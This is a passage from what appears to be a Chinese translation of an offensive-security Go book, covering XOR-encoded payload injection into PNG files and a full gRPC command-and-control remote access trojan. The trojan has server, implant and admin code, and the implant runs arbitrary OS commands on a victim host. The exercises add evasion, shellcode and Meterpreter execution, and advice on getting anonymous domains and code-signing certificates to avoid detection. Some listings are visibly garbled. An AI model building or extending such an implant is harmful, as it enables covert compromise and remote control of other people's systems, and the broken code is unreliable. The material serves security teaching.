对 `XOREncode` 的函数调用传递了一个包含负载和密钥的字节切片，对这两个值进行 XOR 操作并返回一个字节切片，将其赋值给 `chk.Data`。剩余功能保持不变，并将新的块段序列化，以便最终写入图像文件。

你程序的命令行运行应该产生与列表 13-19 相似的。。

```bash
go run main.go -i images/battlecat.png --inject --offset 0x85258 --encode -key gophers --payload 313234235525252522452524355525 --output encodePNGFile
```

- Payload Original: 31 32 33 34 32 33 34 33 35 32 35 32 35 32 32 32 34 35 32 33 35 35 35

- Payload Encode: 56 5D 43 5C 57 46 50 52 5D 57 40 46 52 5D 45 5A 57

```
46 55 5C 50 40 46
Success: encodePNGfile created
```

列表 13-19：运行 imgInject 程序来 XOR 编码数据块块

负载被写入字节表示形式并显示在标准输出 `Payload Original` 1。然后将负载与键值 `gophers` 进行 XOR 操作，并显示在标准输出 `Payload Encode` 2。

要解密你的负载字节，你使用解码函数，如列表 13-20 所示。

```go
//Decode Block
if (c.Offset == "") && c.Decode {
    var m MetaChunk
	① offset, _ := strconv.ParseInt(c.Offset, 10, 64)
	② b.Seek(offset, 0)
	③ m.readChunk(b)
	origData := m.Chk.Data
	④ m.Chk.Data := utils.XorDecode(m.Chk.Data, c.Key)
	m.Chk.CRC = m.createChunkCRC(m)
	⑤ bm := m.marshalData()
	bmb := bm.Bytes()
	fmt.Printf("Payload Original: %X\n", origData)
	fmt.Printf("Payload Decode: %X\n", m.Chk.Data)
	⑥ utils.WriteData(b, cmb)
}
```

列表 13-20：解码图像文件和负载 (`/ch-imginject/pnglib/commands/go`)

该块需要包含负载 1 的块段的偏移位置。你使用偏移量通过 `Seek()` ② 到文件位置，并随后的调用 `readChunk()` ③，这对于推导出 `SIZE`、`TYPE`、`DATA` 和 `CRC` 值是必要的。调用 `XorDecode()` ④ 接收 `chk.Data` 负载值和与编码数据相同的键，并将解码后的负载值赋回 `chk.Data`。（记住这是对称加密，所以请使用相同的键来加密和解密数据。）代码继续通过 `marshalData()` ⑤ 将你的结构体转换为字节切片。最后，你使用 `WriteData()` ⑥ 写入包含解码负载的新块。带有 `decode` 参数的程序命令行运行应该产生列表 13-21 所示的结果。


```bash
$ go run main.go -i decodefile -offset 0x85258 -key gophers
- Payload Original: 56 5D 43 5C 57 46 50 52 5D 57 40 46 52 5D 45 5A 57
- Payload Decode: 31 32 33 34 32 33 34 33 35 32 35 32 35 32 32 32
Success: decodefile
```

列表 13-21：运行 `inject` 程序来 XOR 解码数据块

`Payload Original` 值 1 是原始 PNG 文件的编码数据，而 `Payload Decode` 2 是解密后的负载。如果你比较之前的命令行运行和这里的输出，你会发现解码后的负载与原始值匹配。

但代码存在问题。记住程序在偏移量处注入了新的解码块。如果你有一个已经包含编码段的文件并尝试写入一个带有解码段的新文件，你将在输出文件中同时拥有两者。你可以从图 13-5 中看到这一点。

```
00085250 39 fb bc 9c 72 d4 40 00 08 00 72 4e 64 0d |9....G.M....ND|
00085260 31 32 33 34 33 35 32 35 32 35 32 35 12343452252
00085270 35 32 33 34 35 33 33 35 32 35 35 1f 08 22 4c 522452555..|L|
00085280 00 08 00 00 72 4e 44 60 56 53 46 57 46 40 52 |...RNDM)V|Wf|R|
00085290 5d 50 45 53 47 40 52 5d 45 57 40 46 55 53 |E]|WFR|EZMF|E|
000852a0 5d 50 40 46 77 28 e3 60 00 08 00 00 49 45 44 44 |P|Fw(....|END|
000852b0 a2 4e 60 82
```

图 13-5：输出文件同时包含解码段和编码段

为了理解为什么会发生这种情况，请记住编码 PNG 文件在偏移 `0xb5258` 处有编码块，如图 13-6 所示。

```
00085240 09 73 7b 2a 44 dc cc 32 5c 90 81 81 e1 df 82 ff 07 72 4e 64 0d |S.G.M>....|ND|
00085250 39 fb bc 9c 72 d4 40 00 08 00 72 4e 64 0d |9....G.M....ND|
00085260 56 53 46 53 40 52 5d 45 57 40 46 46 55 53 5d |V]IC|WfR|E]|WFR|
00085270 45 53 47 46 46 53 5c 45 50 48 40 46 77 28 e3 60 |EZWFFU|E]|P|Fw(..|
00085280 00 08 00 00 49 45 44 44 42 4e 60 82 |....END,8'|.
```

图 13-6：包含编码段的输出文件

问题出现在解码数据被写入偏移量 `0xb5258` 时。当解码数据没有正确解码数据时；它会将剩余字节向右移动，如图 13-5 所示。

幸运的是，这个问题很容易解决。关于此功能，你可以查看我们的 `WriteData()`（列表 13-22）。

```go
//WriteData writes new data to offset
func WriteData(r *bytes.Reader, c *models.CmdLineOpts, b []byte) {
	offset, err := strconv.ParseInt(c.Offset, 10, 64)
	if err != nil {
	log.Fatal(err)
	}

	w, err := os.OpenFile(c.Output, os.O_RDWR|os.O_CREATE, 0777)
	if err != nil {
	log.Fatal("Fatal: Problem writing to the output file!")
	}
	r.Seek(0, 0)

	var buff = make([]byte, offset)
	r.Read(buff)
	w.Write(buff)
	w.Write(b)
	if c.Decode {
	r.Seek(int64(len(b)), 1)
	}
	_, err := io.Copy(w, r)
	if err != nil {
	fmt.Printf("Success: %s created\n", c.Output)
	}
}
```

列表 13-22：更新 `WriteData` 以防止重复的辅助块类型 (`/ch-13/img/utils/writer.go`)

编码后的块段，并将剩余字节写入你的新图像文件 3。

搞定！如你在图 13-7 所示，十六进制编辑器确认你已经解决了该问题。不再有重复的辅助类型。

| 00085240 09 73 8b 47 2a dc cc 3e 90 81 81 e1 df 82 ff 07 | |.S.G',.,M.,>....rNOm| | |
|---|---|---|---|
| 00085250 39 fb bc 9c 92 47 4d 0d 00 08 00 1c 72 4a 6d | 9....G.M.,...rNOm| | |
| 00085260 31 32 33 34 33 35 32 25 33 32 25 32 25 32 | 1234235235522552| | |
| 00085270 35 32 33 34 35 33 35 35 35 32 25 1f 08 22 4c | 52245235535525.."L| | |
| 00085280 00 08 00 00 49 45 44 ae 42 60 82 | ...IEND.8.|| | |

图 13-7：输出文件没有重复辅助数据

编码后的数据不再存在了。此外，运行 `ls -la`，文件应该产生相同的长度，尽管文件字节已经变化。

## 总结

在本章中，你学习了如何将 PNG 图像文件格式描述为一系列重复的字节块段，每个段都有其特定的用途和适用性。接下来，你学习了读取和导航二进制文件的方法。然后，你创建了字节数据并将其写入图像文件。最后，你使用 XOR 编码来混淆你的载荷。

本章专注于图像文件，并仅触及了使用隐写术可以实现的内容的皮毛。但你应该能够将在这里学到的知识应用于探索其他二进制文件类型。

## 额外练习

与书中的许多其他章节一样，如果你在过程中实际进行编码和实验，本章将提供最大的价值。因此，我们想通过几个挑战作为结束，以扩展已经涵盖的思想：

- 1. 在读取 XOR 公式时，你可能注意到 `XDecode()` 函数产生了一个解码后的块段，但从不更新 CRC 校验和。看看你是否可以修复这个问题。
- 2. `WriteData()` 函数提供了注入任意块段的能力。如果你想重写辅助型块段，你需要做哪些代码更改？如果你需要帮助，我们关于 `Seek()` 函数的解释可能对解决这个问题有所帮助。
- 3. 这里有一个更具挑战性的问题：通过分布在各种辅助块段中来注入载荷——PNG DATA 字节块。你可以一次一个字节地进行，或者使用多个字节分组来发挥创意。作为额外奖励，创建一个解码器来读取精确的载荷偏移位置，从而更容易提取载荷。
- 4. 本章解释了如何使用 XOR 作为一种机密技术——一种混淆植入载荷的方法。尝试实现一种不同的技术，例如 AES 加密。Go 核心包提供了许多可能性（如果需要复习，请参阅第 11 章）。观察解决方案如何影响新图像。它是否会导致总体尺寸增加？如果是，增加了多少？
- 5. 使用本章中的代码思想扩展对其他图像格式的支持。其他图像规范可能没有 PNG 那么有组织。想证明一下？去读读 PDF 规范，它可能相当令人生畏。你将如何解决向这种新图像格式读取和写入数据的挑战？

# 14

## 构建一个命令与控制木马 (RAT)


在本章中，我们将结合之前章节的几个课程整合起来，构建一个基本的命令与控制 (C2) 远程访问木马 (RAT)。RAT 是攻击者用于在受害者的机器上远程执行操作的工具，例如访问文件系统、执行代码和嗅探网络流量。

构建这个 RAT 需要三个独立的工具：客户端植入、服务器和管理员组件。客户端植入是 RAT 运行在受害工作站上的部分。服务器将与客户端植入进行交互，就像 Cobalt Strike 的团队服务器（这种被广泛使用的 C2 工具的服务器组件）向受害系统发送命令一样。与使用单一服务来促进服务器和管理功能的团队服务器不同，我们将创建一个单独的、独立的管理员组件，用于实际发布命令。该服务器将充当中间人，协调受害系统与与管理员组件交互的攻击者之间的通信。

设计 RAT 有无限种方法。在本章中，我们的目标是重点重点介绍如何处理用于远程访问的客户端和服务器通信。由于这个原因，我们将向你展示如何构建一个简单且未经加工的东西，然后提示你创建重大改进，这些改进应该让你的特定版本更加健壮。这些改进在许多情况下，将需要你复用之前章节的内容和代码示例。你将应用你的知识、创意和解决问题的能力来增强实现。

## 开始

为了开始，让我们查看我们要做的：创建一个接收管理员组件命令的服务器，并创建一个定期轮询服务器并发布命令的植入。首先查看目录结构。

## 为 gRPC API 安装 Protocol Buffers

我们将使用 `gRPC` 构建所有交互，这是一个由 Google 创建的高性能远程调用 (RPC) 框架。`RPC` 允许客户端在不需要理解底层细节的情况下与服务器通信。`gRPC` 框架运行在 `HTTP/2` 之上，以高效的方式通信消息。就像 `REST` 或 `SOAP` 等 `RPC` 机制一样，我们的数据结构需要定义以便序列化和反序列化。幸运的是，有一种机制可以定义 `API`，`Protocol Buffers`（简称 `Protobuf`），包含了 `.proto` 文件的标准语法。存在工具可以将该定义编译为 Go 友好的接口存根和类型。

你的首要任务是在系统上安装 `Protobuf` 编译器。安装过程超出本书的范围，但你可以在官方 `Protobuf` 仓库 `https://github.com/golang/protobuf/` 下找到详细信息。同时，当你在那里时，使用以下命令安装 `gRPC` 包：

```
> get -u google.golang.org/grpc
```

我们将使用 `Protobuf` 来定义我们的 `API`。你可以通过简单的 Google 搜索找到 `Protobuf` 语法的完整解释，但我们在这里会简要说明一下。

至少，我们需要定义一个管理服务，供操作员向服务器发送操作系统命令（工作任务）。我们还需要一个植入程序服务（implant service），供我们的植入程序从服务器获取工作任务并将命令输出传回服务器。列表 14-1 显示了 `implant.proto` 文件的内容。（`/` 根目录下的所有代码列表都存在提供的 github 仓库 `https://github.com/blackhat-go/bhg/` 中。）

```
//implant.proto
syntax = "proto3";
package grpcapi;

// Implant 定义我们的 C2 API 函数
service Implant {
    rpc FetchCommand (Empty) returns (Command);
    rpc SendOutput (Command) returns (Empty);
}

// Admin 定义我们的 Admin API 函数
service Admin {
    rpc RunCommand (Command) returns (Command);
}

// Command 定义了输入和输出字段
message Command {
    string In = 1;
    string Out = 2;
}

// Empty 定义了一个用于替代 null 的空消息
message Empty {
}
```

列表 14-1：使用 `Protobuf` 定义 `gRPC` `API` (`/ch-14/grpcapi/implant.proto`)

回想一下我们打算如何将此定义文件编译为 Go 特有的产物？很好，我们显式地包含了 `package grpcapi` ❶，告诉编译器我们希望这些产物被创建在 `grpcapi` 包下。该包的名称是任意的。我们选择它是为了确保 `API` 代码与其他组件保持分离。

然后，我们的模式（schema）定义了一个名为 `Implant` 的服务和一个名为 `Admin` 的服务。我们将它们分开，是因为我们预计 `Implant` 组件与 `API` 的交互方式与 `Admin` 客户端不同。例如，我们不希望 `Implant` 向服务器发送操作系统命令，就像我们不要求 `Admin` 组件向服务器发送命令输出一样。我们在 `Implant` 服务上定义了两个方法：`FetchCommand` 和 `SendOutput` ②。定义这些方法就像在 Go 中定义接口。我们是在说，`Implant` 服务的任何实现都将实现这两个方法。`FetchCommand` 接收一个 `Empty` 消息作为参数，并返回服务器上任何待处理的操作系统命令。`SendOutput` 将将 `Command` 消息（包含命令输出）发回服务器。这些消息（我们稍后会介绍）是任意的、复杂的数据结构，包含了我们在端点之间传递数据所需的字段。

我们的 `Admin` 服务定义了一个单独的方法：`RunCommand`，它接收一个 `Command` 消息作为参数，并期望返回一个 `Command` 消息 3。它的意图是允许你（即 RAT 操作员）在运行有植入程序的远程系统上运行操作系统命令。

最后，我们定义了将要来回传递的两个消息：`Command` 和 `Empty`。`Command` 消息包含两个字段，一个用于维护操作系统命令本身（一个名为 `In` 的字符串），另一个用于维护命令输出（一个名为 `Out` 的字符串） 4。注意，消息和字段名称是任意的，但我们为每个字段分配了一个数值。你可能会奇怪，如果我们把它们定义为字符串，又是如何为 `In` 和 `Out` 分配数值的呢？答案是，这是一个模式定义，而不是实现。这些数值代表了字段在消息本身中出现的偏移量。我们是在说 `In` 先出现，然后 `Out` 出现。`Empty` 消息不包含任何字段 5。

现在我们已经有了模式。为了完成 `gRPC` 定义，我们需要编译该模式。在 `grpcapi` 目录下运行以下命令：

```
$ protoc -I . implant.proto --go_out=plugins=grpc:.
```

该命令在你完成我们之前提到的初始安装后可用，它会在当前目录中搜索名为 `implant.proto` 的 `Protobuf` 文件，并在当前目录中生成 Go 特有的输出。一旦成功执行了它，你的 `grpcapi` 目录中应该会有一个名为 `implant.pb.go` 的新文件。这个新文件包含了 `Protobuf` 模式中创建的服务和消息的接口和结构体定义。我们将利用它来构建服务器、植入程序和管理组件。让我们一个一个构建。

## 创建服务器

让我们从服务器开始，它将接受来自管理客户端的命令并轮询植入程序。服务器将是所有组件中最复杂的，因为它需要实现 `Implant` 和 `Admin` 服务。此外，由于它作为管理组件和植入程序之间的中间人，它需要代理和管理进发每一侧的消息。

## 实现协议接口

让我们首先查看 `server/server.go` 中的服务器核心（列表 14-2）。在这里，我们正在实现必要的接口方法，以便服务器从共享通道读写命令。

```go
type implantServer struct {
    work, output chan *grpcapi.Command
}
type adminServer struct {
    work, output chan *grpcapi.Command
}
```

```go
func NewImplantServer(work, output chan *grpcapi.Command) *implantServer {
    s := new(implantServer)
    s.work = work
    s.output = output
return s
}

func NewAdminServer(work, output chan *grpcapi.Command) *adminServer {
s := new(adminServer)
s.work = work
s.output = output
return s
}
```


## 定义服务器类型

列表 14-2：定义服务器类型（`/ch-14/server.go`）

```go
+   3 func (s *implantServer) FetchCommand(ctx context.Context, empty *grpcapi.Empty) (*grpcapi.Command, error) {
var cmd = new(grpcapi.Command)
select
case cmd, ok := <-s.work:
if ok {
  return cmd, nil
}
return cmd, errors.New("channel closed")
default:
// No work
return cmd, nil
}

+   5 func (s *implantServer) SendOutput(ctx context.Context, result *grpcapi.Command) (*grpcapi.Empty, error) {
s.output <- result
return &grpcapi.Empty{}, nil
}

+   6 func (s *adminServer) RunCommand(ctx context.Context, cmd *grpcapi.Command) (*grpcapi.Command, error) {
var res *grpcapi.Command
go func() {
  s.work <- cmd
}()
res = <-s.output
return res, nil
}
```

为了服务我们的管理和植入程序 API，我们需要定义服务器类型。为了保持管理和植入程序 API 互斥，我们需要 `FetchCommand(ctx context.Context, empty *grpcapi.Empty)`、`SendOutput(ctx context.Context, result *grpcapi.Command)` 和 `RunCommand(ctx context.Context, cmd *grpcapi.Command)` 方法。首先，我们创建了名为 `implantServer` 和 `adminServer` 的结构体，它们将实现必要的方法。每个类型包含相同的字段：用于发送和接收工作的通道。这是服务器在管理和植入程序组件之间代理工作的简单方式。接下来，我们定义了两个辅助函数 `NewImplantServer(work, output chan *grpcapi.Command)` 和 `NewAdminServer(work, output chan *grpcapi.Command)`，它们创建新的 `implantServer` 和 `adminServer` 实例。这些存在仅仅是为了确保通道被正确初始化。

现在是有趣的部分：gRPC 方法的实现。你可能会注意到方法与 Protobuf 模式并不完全匹配。例如，我们接收一个 `context.Context` 参数并返回一个 `error`。你之前运行的编译模式的 `protoc` 命令将这些添加到了接口定义中。这让我们能够管理请求上下文并返回错误。这是网络通信的标准操作。

我们在 `implantServer` 上实现的第一个方法 `FetchCommand(ctx context.Context, empty *grpcapi.Empty)` 接收一个 `*grpcapi.Empty` 并返回一个 `*grpcapi.Command`。回想一下我们定义这个 `Empty` 类型是因为 gRPC 不允许空。我们不需要接收任何输入，因为客户端植入程序将调用 `FetchCommand(ctx context.Context, empty *grpcapi.Empty)` 方法作为一种轮询机制，询问“嘿，你有工作要给我吗？”该方法的逻辑稍微复杂，因为只有当我们有工作要发送时，才能向植入程序发送工作。因此，我们在工作通道上使用 `select` 语句来判断是否有工作。以这种方式读取通道是非阻塞的，这意味着如果没有内容可读，执行将运行我们的默认分支。这是理想的，因为我们将让植入程序定期调用 `FetchCommand(ctx context.Context, empty *grpcapi.Empty)`，以便以近实时调度获取工作。如果在通道中发现了工作，我们就返回命令。在后台，命令将被序列化并通过网络传回植入程序。

第二个 `implantServer` 方法 `SendOutput(ctx context.Context, result *grpcapi.Command)` 将接收到的 `*grpcapi.Command` 推送到输出通道。回想一下，我们定义的 `Command` 不仅有一个用于维护操作系统命令本身的字符串字段，还有一个用于维护命令输出的字段。由于我们正接收端会将 `output` 字段填充为命令执行的结果（由植入执行）。`SendOutput(ctx context.Context, result *grpcapi.Command)` 方法简单地接收来自植入的结果并将其放入通道中，我们的管理组件稍后将从该通道读取。

最后一个 `implantServer` 方法 `RunCommand(ctx context.Context, cmd *grpcapi.Command)` 定义在 `adminServer` 类型上。它接收一个尚未发送到植入程序的 `Command`。它代表了我们的管理组件希望植入程序执行的工作单元。我们使用一个 goroutine 将工作置于通道中。由于我们使用的是无缓冲通道，此操作会阻塞执行。我们需要能够从输出通道中读取，因此我们使用一个 goroutine 将工作放入通道并继续执行。执行会阻塞，等待我们输出通道上的响应。我们本质上将此流程转变为了一组同步的步骤：向植入程序发送命令并等待响应。我们返回结果。当我们收到响应时，我们同样期望此结果（即一个 `Command`）的 `output` 字段已由植入程序执行的操作系统命令的结果所填充。

## 编写 main() 函数

列表 14-3 显示了 `server/server.go` 文件的 `main()` 函数，它运行两个服务器——一个用于接收来自管理客户端的命令，另一个用于接收来自植入程序的轮询。我们有两个监听器，以便限制对管理 API 的访问——我们不希望任何人都能与之交互——并且我们希望植入程序监听在你可以从限制性网络访问的端口上。

```go
func main() {
  var (
    implantListener, adminListener net.Listener
    err
    opts []grpc.ServerOption
    work, output chan *grpcapi.Command
  )

  work, output = make(chan *grpcapi.Command), make(chan *grpcapi.Command)

  implant := NewImplantServer(work, output)
  admin := NewAdminServer(work, output)

  if implantListener, err = net.Listen("tcp",
  fmt.Sprintf("localhost:%d", 4444)); err != nil {
    log.Fatal(err)
  }

  if adminListener, err = net.Listen("tcp",
  fmt.Sprintf("localhost:%d", 9090)); err != nil {
    log.Fatal(err)
  }

  grpcAdminServer, grpcImplantServer := 
    grpc.NewServer(opts...), grpc.NewServer(opts), implant

  grpc.RegisterImplantServer(grpcImplantServer)
  grpcapi.RegisterAdminServer(grpcAdminServer, admin)

  go func() {
    grpcImplantServer.Serve(implantListener)
  }()

  grpcAdminServer.Serve(adminListener)
}
```

列表 14-3: 运行管理和植入服务器（`/ch-14/server/server.go`）

首先，我们声明了变量。我们使用了两个监听器：一个用于植入服务器，另一个用于管理服务器。我们这样做是为了可以在一个与植入程序 API 独立的端口上提供管理 API 服务。

我们创建了用于在植入程序和管理服务之间传递消息的通道。注意，我们通过调用 `NewImplantServer(work, output)` 和 `NewAdminServer(work, output)` 使用相同的通道来初始化植入服务器和管理服务器。通过使用相同的通道实例，我们让管理服务器和植入服务器通过这个共享通道相互通信。

接下来，我们为每个服务器启动了网络监听器，将 `implantListener` 绑定到端口 4444，将 `adminListener` 绑定到端口 9090。我们通常会使用端口 80 或 443，这些是通常允许出口网络的 HTTP/s 端口，但在示例中，我们只是为了测试目的随机了一个端口，以避免与开发机器上运行的其他服务冲突。

我们已经定义了网络级别的监听器。现在设置我们的 gRPC 服务器和 API。通过调用 `grpc.NewServer()` 创建了两个 gRPC 服务器实例（一个用于管理 API，一个用于植入程序 API）。这初始化了为我们处理所有网络通信的核心 gRPC 服务器。我们只需要告诉它使用我们的 API。我们通过注册 API 实现实例（在我们的示例中命名为 `implant` 和 `admin`）来实现此，即调用 `grpcapi.RegisterImplantServer(grpcImplantServer, implant)` 和 `grpcapi.RegisterAdminServer(grpcAdminServer, admin)`。注意，尽管我们创建了 `grpcapi` 包，但我们从未定义过这两个函数；是 `protoc` 命令定义的。它在 `implant.pb.go` 中为我们创建了这些函数，作为创建植入和管理 gRPC API 服务器新实例的一种。非常巧妙！

至此，我们已经定义了 API 的实现并将其注册为 gRPC 服务。我们做的最后一件事是通过调用 `grpcImplantServer.Serve(implantListener)` 启动植入服务器。我们在 goroutine 内部执行此操作以防止代码阻塞。毕竟，我们想要启动管理服务器，通过调用 `grpcAdminServer.Serve(adminListener)` 实现这一点。

你的服务器现在已经完成了，你可以通过运行 `run server/server.go` 来启动它。当然，目前还没有东西与你的服务器交互，所以什么都不会发生。让我们进入下一个组件——我们的植入程序。

## 创建客户端植入程序

客户端植入程序设计为运行在受感染的系统上。它将作为一个后门，我们可以通过它运行操作系统命令。在示例中，植入程序将定期轮询服务器请求工作。如果没有工作，植入程序将什么都不做。如果有工作，植入程序将执行操作系统命令并将结果传回服务器。列表 14-4 显示了 `implant.go` 的内容。

```go
func main() {
  var (
    opts []grpc.DialOption
    conn *grpc.ClientConn
    err error
    client grpcapi.ImplantClient
  )

  opts = append(opts, grpc.Insecure())
  if conn, err = grpc.Dial(fmt.Sprintf("localhost:%d", 4444), opts...); err != nil {
    log.Fatal(err)
  }
  defer conn.Close()

  client = grpcapi.NewImplantClient(conn)

  ctx := context.Background()
  for {
    req := new(grpcapi.Empty())
    cmd, err := client.FetchCommand(ctx, req)
    if err != nil {
      log.Fatal(err)
    }
    if cmd.In == "" {
      // 没有工作
      time.Sleep(3*time.Second)
      continue
    }

    tokens := strings.Split(cmd.In, " ")
    var c *exec.Cmd
    if len(tokens) == 1 {
      c = exec.Command(tokens[0])
    } else {
      c = exec.Command(tokens[0], tokens[1:]...)
    }
    buf, err := c.CombinedOutput()
    if err != nil {
      cmd.Out = err.Error()
    }
    cmd.Out += string(buf)
    client.SendOutput(ctx, cmd)
  }
}
```

列表 14-4: 创建植入程序（`/ch-14/implant.go`）

植入程序代码只包含一个 `main()` 函数。我们首先声明了变量，包括 `grpcapi.ImplantClient` 类型，这是 `protoc` 命令为我们创建的。该类型包含了远程通信所需的 RPC 存根。

然后我们通过 `grpc.Dial(target string, opts... DialOption)` 与运行在 4444 端口的植入服务器建立连接。我们将使用该连接调用 `grpcapi.NewImplantClient(conn)`（这是一个为我们创建的函数）。我们现在有了 gRPC 客户端，它应该已经连接回我们的服务器。

我们的代码随后使用一个无限 `for` 循环来轮询植入服务器，反复检查是否有需要执行。通过调用 `client.FetchCommand(ctx, req)` 并传递一个请求上下文和 `Empty` 结构体。在后台，它正在连接到我们的 API 服务器。如果响应的 `cmd.In` 字段为空，我们将暂停 3 秒然后重试。当收到工作单元时，植入程序将命令拆分为单个单词，并调用 `strings.Split(cmd.In, " ")`。这是必要的，因为 Go 执行操作系统命令的语法是 `exec.Command(name, args...)`，其中 `name` 是要运行的命令，`args...` 是操作系统命令使用的子命令、标志和参数。Go 这样做是为了防止操作系统命令注入，但这增加了我们执行的复杂度，因为在运行之前必须将命令拆分成相关的片段。我们运行命令并通过运行 `c.CombinedOutput()` 收集输出。最后，我们获取该输出并发起 `client.SendOutput(ctx, cmd)` 的 gRPC 调用，将我们的命令及其输出传回服务器。

你的植入程序也完成了，你可以通过运行 `go run implant/implant.go` 来启动它。它应该连接到你的服务器。再次，这将会很平淡，因为没有工作需要执行。仅仅几个运行中的进程，建立了连接但没有做任何有意义的事情。让我们修复这个问题。

# 构建管理组件

管理组件是我们的 RAT 的最后一部分。它是我们实际产生工作的地方。工作将通过我们的管理 gRPC API 发送到服务器，然后由服务器将其转发给植体（implant）。服务器从植体获取输出并将其传回管理客户端。列表 14-5 显示了 `client/client.go` 中的代码。

```go
func main() {
    var (
        opts []grpc.DialOption *grpc.ClientConn
        err error
        client grpcapi.AdminClient ①
    )

    opts = append(opts, grpc.WithInsecure())
    if conn, err = grpc.Dial(fmt.Sprintf("localhost:%d", 9090), opts...)); err != nil { ②
        log.Fatal(err)
    }
    defer conn.Close()
    client = grpcapi.NewAdminClient(conn) ③
    var cmd = new(grpcapi.Command)
    cmd.In = os.Args[1] ④
    ctx := context.Background()
    cmd, err = client.RunCommand(ctx, cmd) ⑤
    if err != nil {
        log.Fatal(err)
    }
    fmt.Println(cmd.Out) ⑨
}
```

列表 14-5: 创建管理客户端（`/ch-14/client/client.go`）

我们首先定义我们的 `grpcapi.AdminClient` 变量，在端口 9090 上与我们的管理服务器建立连接，并在调用 `grpcapi.NewAdminClient(conn)` 使用该连接，创建一个管理 gRPC 客户端的实例。（记住 `grpcapi.AdminClient` 类型和 `grpcapi.NewAdminClient` 函数是由 `protoc` 为我们生成的。）在继续之前，将此客户端创建过程与植体代码进行比较。注意它们的相似之处，但也注意类型、函数调用和端口上的细微差异。


假设存在命令参数，我们从该参数读取操作系统命令 ⒋。当然，如果我们检查是否传递了参数，代码会更健壮，但在这个示例中我们不必担心这一点。我们将命令字符串赋值给`cmd.In`。我们将此`cmd`（一个`*grpcapi.Command`实例）传递给 gRPC 客户端的`RunCommand(ctx context.Context, cmd *grpcapi.Command)` 方法 ⑤。在后台，此命令被序列化并发送到我们之前创建的管理服务器。在接收到响应后，我们期望输出将填充操作系统命令的结果。我们将该输出写入到控制台 ➏。

## 运行 RAT

现在，假设你已经运行了服务器和植体，你可以通过`go run client/client.go`命令执行你的管理客户端。你应该会在管理客户端终端中接收到输出并显示在屏幕上，如下所示：

```bash
$ go run client/client.go 'cat /etc/resolv.conf'
domain Home
nameserver 192.168.0.1
nameserver 205.171.3.25
```

就是这样——一个可以运行的 RAT。输出显示了远程文件的内容。运行其他命令查看你的植体正在运行。

## 改进 RAT

正如我们在章开头提到的，我们刻意让这个 RAT 保持很小且功能单一。它的扩展性并不好。它无法优雅地处理错误或连接中断，并且缺乏许多允许你规避检测、跨网络移动、提升权限等方面的基本功能。

我们并没有在示例中实现所有这些改进，而是列出了一系列你可以自行完成的增强方案。我们将讨论一些考虑因素，但会将每项任务留给你们作为练习。为了完成这些练习，你可能需要参考本书的其他章节，深入研究 Go 包文档，并尝试使用通道（channels）和并发。这是一个将你的知识和技能付诸实践的机会。去吧，让我们感到骄傲吧，年轻的学（Padawan）。

## 加密你的通信

所有的 C2 工具都应该加密网络流量！这对于植体和服务器之间的通信尤为重要，因为你应该预感到在任何现代企业环境中都会发现出口网络监控。

修改你的植体以使用 TLS 进行这些通信。这将要求你在客户端和服务器上为`grpc.DialOptions`切片设置额外值。

顺便，你可能应该修改代码，使服务绑定到定义的接口，并默认监听和连接`localhost`。这将防止未经授权的访问。

你必须做的一个考虑（特别是如果你将执行基于证书的认证）是，如何在植体中管理和维护证书和密钥。你应该硬编码它们吗？将它们存储在远程？还是在运行时通过某种“魔术”来决定你的植体是否有权连接到你的服务器？

## 处理连接中断

既然提到了通信，如果你的植体无法连接到服务器，或者你的服务器在植体运行时崩溃了会发生什么？你可能已经注意到这会破坏一切——植体会死亡。如果植体死亡，你就失去了对该系统的访问权限。这可能是一个大问题，特别是当初始入侵是以难以复制的方式发生时。

修复这个问题。为植体添加一些韧性，使其在连接丢失时不会立即死亡。

## 注册植体

你将希望能够跟踪你的植体。目前，我们的管理客户端发送命令时预期存在单个植体。目前没有跟踪或注册植体的方法。添加植体在初始连接时向服务器注册的功能，并使用`UUID`（查看`https://github.com/google/uuid/`）。这将更改管理和植体的 API，从你的`implant.proto`文件开始。在服务中添加`RegisterNewImplant`方法，并在`Admin`服务中添加`ListImplants`。使用`protoc`重新编译，在`server/go`中实现相应的方法，并在`client.go`和`implant.go`中添加新功能。

## 添加数据库持久化

如果你完成了本节之前的练习，你为植体增加了抵抗连接中断的韧性并设置了注册功能。此时，你最可能在`server/go`的内存中维护植体列表。如果你需要重启服务器怎么办？你的植体将继续重新连接，当它们连接时，你的服务器将不知道哪些植体已注册，因为你丢失了植体到`UUID`的映射。

更新你的服务器代码，将这些数据存储在你选择的数据库中。对于快速且简单的解决方案，请考虑`SQLite`数据库。有很多 Go 驱动可用。我们个人使用了`go-sqlite3`(`https://github.com/mattn/go-sqlite3/`)。

## 支持多个植体

从现实来说，你将希望支持多个植体同时向你的服务器请求工作。这会让你的 RAT 有用得多，因为它可以管理多个植体，但也需要重大的更改。

这是因为当你希望在植体上执行命令时，你可能希望在一个特定的植体上执行，而不是第一个请求工作的植体上。你可以依赖注册期间创建的植体 ID 来保持植体的互斥，并恰当地地引导命令和输出。实现此功能，以便你可以显式选择运行命令的目标植体。

进一步使该逻辑复杂的是，你必须考虑可能有多个管理操作同时发送命令，这在团队协作时很常见。这意味着你可能希望将工作输出通道从无缓冲类型转换为缓冲类型。这有助于在有多个消息处理时保持非阻塞。然而，为了支持这种多路复用，你需要一种能够匹配请求者与其相应响应的机制。例如，如果

两个管理员同时向植入体发送工作，植入体会生成两个独立的响应。如果操作员 1 发送`is`命令而操作员 2 发送`ifconfig`命令，那么操作员 1 接收到`ifconfig`的命令输出是不合适的，反之亦然。

## 添加植入体功能

我们的实现期望植入体接收并运行操作系统命令。然而，其他 C2 软件包含许多其他非常有用的便利。例如，如果能够与我们的植入体上传或下载文件将非常不错。如果我们需要运行原始 shellcode（例如在不触碰磁盘的情况下启动一个 Meterpreter shell），这可能很有用。扩展当前的功能以支持这些额外特性。

## 链式操作系统命令

由于 Go 的`os/exec`包创建和运行命令的方式，你目前无法将一个命令的输出作为输入管道到第二个命令。例如，`ls -la | wc -l`在你目前的实现中无法工作。要修复这个问题，你需要处理命令变量，该变量是在你调用`exec.Command()`创建命令实例时创建的。你可以修改`stdin`和`stdout`属性以进行适当的重定向。当与`io.Pipe`结合使用时，你可以强制一个命令的输出（例如`ls -la`）作为后续命令（`wc -l`）的输入。

## 增强植入体的真实性与实践

### 良好的操作安全（OPSEC）

当在本节的第一个练习中向植入体添加加密通信时，你使用了自签名证书吗？如果是，传输和后端服务器可能会引起设备和检查代理的怀疑。相反，请使用私有的或匿名联系详情结合证书权威机构服务注册域名，以创建一个合法的证书。此外，如果你有能力的话，请考虑获取一个代码签名证书来对你的植入体二进制文件进行签名。

